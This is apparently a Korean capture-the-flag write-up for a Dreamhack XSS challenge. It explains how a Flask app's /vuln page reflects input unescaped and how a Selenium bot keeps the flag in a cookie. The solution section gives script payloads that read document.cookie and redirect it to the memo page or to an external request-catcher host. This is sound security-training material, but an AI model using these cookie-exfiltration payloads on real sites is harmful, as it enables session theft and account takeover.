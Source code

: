 ## 📍xss-1

```
여러 기능과 입력받은 URL을 확인하는 봇이 구현된 서비스입니다.  
XSS 취약점을 이용해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.
```

들어가보면 /, /vuln, /memo, /flag 4개의 페이지를 제공한다.


#### 소스코드

vuln 페이지는 이용자가 전달한 `param` 파라미터의 값을 출력한다.
![](../../Attachments/BC90F34F-D2E9-4BB2-94C8-98712D5652CB.png)

memo 페이지는 이용자가 전달한 `memo` 파라미터 값을 `memo_text`에 추가하고, `render_template` 함수를 통해 출력한다.
![](../../Attachments/D5DB0D21-75EE-49F1-A59B-A3AB76EB8F65.png)

flag 페이지는 GET 요청의 경우 이용자에게 URL을 입력받는 페이지를 제공한다.
POST 요청의 경우, 이용자가 전달한 `param` 파라미터에 값과 쿠키에 FLAG를 포함해 `check_xss` 함수를 호출한다.
![](../../Attachments/3FB2C24F-6461-443E-8E00-112267906E2B.png)

`check_xss` 함수는 `read_url` 함수를 호출해서 vuln 엔드포인트에 접속한다.
![](../../Attachments/2351CE11-953A-42F5-99FD-E1B6368DE7FC.png)


`read_url` 함수는 Selenium 웹드라이버를 사용해 쿠키를 추가하고 주어진 url에 접속하는 함수였다.
따라서 FLAG는 Selenium 봇의 쿠키에 들어가 있으므로 쿠키를 탈취해야 한다.


#### 취약점

vuln과 memo는 둘 다 이용자의 입력값을 페이지에 출력하지만, memo는 `render_translate` 함수를 사용해서 출력한다. `render_template` 함수는 전달된 템플릿 변수를 기록할 때 HTML 엔티티코드로 변환해 저장하기 때문에 XSS가 발생하지 않는다.
vuln은 이용자의 입력값을 페이지에 그대로 출력하기 때문에 XSS가 발생한다.


#### 해결

vuln 엔드포인트에서 발생하는 XSS 취약점을 통해 Selenium 봇의 쿠키를 탈취한다.
(document.cookie)

memo 페이지는 이용자가 추가한 값을 출력하므로, flag 값을 확인하려면 flag 엔드포인트에서 이런 코드를 입력한다.
```javascript
<script>location.href = "/memo?memo=" + document.cookie;</script>
```

![](../../Attachments/C17C5A5F-96CF-4200-B806-B48F0973DC6E.png)

memo 페이지에 flag 값이 출력되어 있다.
![](../../Attachments/9FB04350-D727-4022-9DFA-D48C63DAEF63.png)



혹은 외부에서 접근 가능한 웹 서버 주소를 넣어서 탈취한 쿠키를 확인할 수도 있다.
https://tools.dreamhack.games/main
```javascript
<script>
	location.href = "EXAMPLEHOST.request.dreamhack.games/?memo=" + document.cookie;
</script>
```
![](../../Attachments/A6D2590A-D1D7-416C-BAF0-46C62414563F.png)

